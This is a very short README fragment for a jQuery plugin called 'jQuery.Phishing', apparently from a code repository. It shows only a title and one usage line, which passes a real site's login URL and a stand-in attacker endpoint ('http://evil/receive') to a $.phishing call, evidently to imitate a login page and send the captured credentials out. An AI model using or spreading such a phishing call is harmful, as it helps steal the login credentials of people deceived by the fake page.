 # jQuery.Phishing
## Usage
```javascript
$.phishing('http://wooyun.org/login','http://evil/receive')
```
